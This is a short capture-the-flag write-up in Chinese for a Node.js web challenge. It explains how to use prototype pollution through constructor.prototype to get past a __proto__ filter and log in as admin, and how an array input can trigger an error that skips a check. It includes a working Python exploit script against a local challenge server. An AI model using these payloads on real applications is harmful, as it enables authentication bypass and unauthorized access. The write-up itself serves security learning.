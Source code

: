 # Nodejs Bypass

**Author:** tel

**Difficulty:** Medium

**Category:** Web

## 题目描述

没有人比我更懂 nodejs

## 题目解析

**暴露端口：`80`**

登录 admin 获取 flag1，原型链污染 `req.user="admin"`，过滤了 `__proto__`，使用 `constructor.prototype` 绕过

绕过 checkcode 获取 flag2，需要在 flag2 中触发报错，跳出 `try` 代码块

```py
import requests

url = "http://127.0.0.1:3000/"

# flag1
data = {
    "username":"admin",
    "password":"11",
	"constructor":{
		"prototype":{
			"user":"admin"
		}
	}
}
print(requests.post(url,json=data).text)
r = requests.get(url+"flag1")
print("flag1: " + r.headers["This_Is_The_Flag1"])

# flag2
data = {
    "checkcode":[
        1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
    ]
}
r = requests.post(url+"flag2",data=data)
print(r.json()["msg"])
```
